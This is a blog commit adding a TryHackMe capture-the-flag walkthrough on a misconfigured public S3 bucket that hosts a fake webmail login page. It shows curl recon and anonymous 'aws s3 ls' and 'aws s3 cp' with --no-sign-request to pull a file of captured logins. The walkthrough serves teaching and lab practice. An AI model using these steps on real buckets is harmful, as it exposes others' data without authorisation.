

Before and after one commit to j4ke-exe/j4ke.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1380 px high. Shown: the whole window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown.

Commit message:
Published 'A Bucket of Phish' Walkthrough

````diff
--- /dev/null
+++ b/_posts/2025-05-23-a-bucket-of-phish-ctf-tryhackme.md
@@ -0,0 +1,256 @@
+---
+title: "A Bucket of Phish CTF TryHackMe Walkthrough"
+slug: a-bucket-of-phish
+layout: post
+excerpt_separator:  <!--more-->
+categories:
+  - ctfs
+---
+
+![](https://github.com/j4ke-exe/j4ke.io/assets/media/a-bucket-of-phish-banner.jpeg){: .center-image }
+
+In this TryHackMe CTF challenge, A Bucket of Phish, we’ll go step-by-step through finding and exploiting a misconfigured AWS S3 bucket. The bucket hosts a static version of a CMail login page, and with a bit of investigation, we’re able to dig deeper and ultimately pull a list of compromised users.
+
+<br>
+## Step 1: Initial Recon
+
+Target domain:
+
+```bash
+http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
+```
+
+![](https://github.com/j4ke-exe/j4ke.io/assets/media/a-bucket-of-phish-cmail.jpeg){: .center-image }
+
+We inspect the website content to understand what kind of application is hosted.
+
+```bash
+curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
+```
+
+```html
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Cmail Webmail Login</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f4f4f9;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .login-container {
+            background-color: white;
+            padding: 40px;
+            border-radius: 8px;
+            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+            width: 100%;
+            max-width: 400px;
+        }
+        .login-container h1 {
+            text-align: center;
+            color: #333;
+            margin-bottom: 20px;
+        }
+        .login-container input[type="text"],
+        .login-container input[type="password"] {
+            width: 100%;
+            padding: 12px;
+            margin: 10px 0;
+            border: 1px solid #ddd;
+            border-radius: 4px;
+            box-sizing: border-box;
+            font-size: 14px;
+        }
+        .login-container button {
+            width: 100%;
+            padding: 12px;
+            background-color: #4CAF50;
+            color: white;
+            border: none;
+            border-radius: 4px;
+            font-size: 16px;
+            cursor: pointer;
+        }
+        .login-container button:hover {
+            background-color: #45a049;
+        }
+        .login-container .footer {
+            text-align: center;
+            margin-top: 20px;
+            font-size: 14px;
+            color: #666;
+        }
+    </style>
+</head>
+<body>
+
+<div class="login-container">
+    <h1>Cmail Login</h1>
+    <form action="/login" method="POST">
+        <label for="email">Email Address</label>
+        <input type="text" id="email" name="email" placeholder="Enter your email" required>
+
+        <label for="password">Password</label>
+        <input type="password" id="password" name="password" placeholder="Enter your password" required>
+
+        <button type="submit">Login</button>
+    </form>
+
+    <div class="footer">
+        <p>Forgot your password? <a href="/reset-password">Reset it here</a></p>
+    </div>
+</div>
+
+</body>
+</html>
+```
+
+### Observations:
+- The page displays a styled HTML login form for **CMail Webmail**.
+- The form action points to `/login`, and there's a password reset link to `/reset-password`.
+- However, because this is hosted on **Amazon S3 static website hosting**, it doesn't support dynamic back-end functionality.
+
+```bash
+curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com/reset-password
+```
+
+```html
+<html>
+<head><title>404 Not Found</title></head>
+<body>
+<h1>404 Not Found</h1>
+<ul>
+<li>Code: NoSuchKey</li>
+<li>Message: The specified key does not exist.</li>
+<li>Key: reset-password</li>
+<li>RequestId: EN4SKKZ1VKK91P9T</li>
+<li>HostId: eGjEBRKU/BUWSzBefb8eYERlkKeG4qeKb0TT3IFWzraJibJsV6oqqt/j5nuCdojgAcTw1TqwGHY=</li>
+</ul>
+<h3>An Error Occurred While Attempting to Retrieve a Custom Error Document</h3>
+<ul>
+<li>Code: NoSuchKey</li>
+<li>Message: The specified key does not exist.</li>
+<li>Key: error.html</li>
+</ul>
+<hr/>
+</body>
+</html>
+```
+
+<br>
+
+## Step 2: Validate Hosting Type
+
+We verify the type of hosting and server technology by viewing headers:
+
+```bash
+curl -I http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
+```
+
+```bash
+HTTP/1.1 200 OK
+x-amz-id-2: y6mmGEQad0NaD02ile8U97LzaR89gBpdoWeLojjLKGEKKauo2+qSGRSewEWQX5JO4c0BZBeZ3/c=
+x-amz-request-id: HGSZRZX8MAQCVP1N
+Date: Fri, 23 May 2025 20:53:58 GMT
+Last-Modified: Mon, 17 Mar 2025 06:25:33 GMT
+ETag: "3b392b5fc343b899cc3d67b6ecb2d025"
+Content-Type: text/html
+Content-Length: 2300
+Server: AmazonS3
+```
+
+### Response:
+```
+Server: AmazonS3
+```
+
+This confirms the website is served directly from an S3 bucket.
+
+<br>
+
+## Step 3: Enumerate the S3 Bucket
+
+Amazon S3 static websites often use the format:
+```
+http://<bucket-name>.s3-website-<region>.amazonaws.com
+```
+
+From this, we can identify the bucket name:
+```
+darkinjector-phish
+```
+
+We attempt to list contents without authentication (public enumeration).
+
+```bash
+aws s3 ls s3://darkinjector-phish --recursive --no-sign-request
+```
+
+### Output:
+```
+2025-05-23 19:58:04     4912 index.html
+2025-05-23 20:01:17     1456 captured-logins-093582390
+```
+
+<br>
+
+## Step 4: Retrieve the Flag
+
+Download the file titled `captured-logins-093582390`.
+
+```bash
+aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
+```
+
+```bash
+cat captured-logins-093582390
+```
+
+```bash
+user,pass
+munra@thm.thm,Password123
+test@thm.thm,123456
+mario@thm.thm,Mario123
+flag@thm.thm,THM{REDACTED}
+```
+
+<br>
+
+### Notes & Lessons Learned
+
+- Static S3 websites **do not support server-side logic**. Attempting `/login` or `/reset-password` will fail or return 404 errors.
+- If the bucket is public, you can **list and download files without authentication** using `--no-sign-request`.
+- Always validate headers and structure to determine if the target is an S3 static site.
+- This is a **common misconfiguration vulnerability** in cloud storage security.
+
+<br>
+
+### Installation of `awscli`:
+
+**macOS (Homebrew):**
+```bash
+brew install awscli
+```
+
+**Kali Linux / Debian-based:**
+```bash
+sudo apt update && sudo apt install awscli
+```
+
+**Windows PowerShell:**
+```powershell
+msiexec.exe /i https://awscli.amazonaws.com/AWSCLIV2.msi
+```
+
+<br>
+
+## Responsible Disclosure
+
+If you encounter this in the real world outside of a CTF or test environment, **always disclose responsibly** through a coordinated vulnerability disclosure program or the organization’s security contact.
--- a/_sass/hydeout/_posts.scss
+++ b/_sass/hydeout/_posts.scss
@@ -35,7 +35,7 @@
 .terminal-title {
   font-family: SFMono-Regular, Consolas, "Liberation Mono", Menlo, monospace !important;
   font-size: calc(6vw - 0.56rem);
-  line-height: calc(6.6vw - 0.33rem);
+  line-height: calc(6.6vw - 0.42rem);
   overflow: hidden;
 
   /* Medium screens (≥560px) */
````
Also changed, not shown: assets/media/a-bucket-of-phish-banner.jpeg (added), assets/media/a-bucket-of-phish-cmail.jpeg (added).
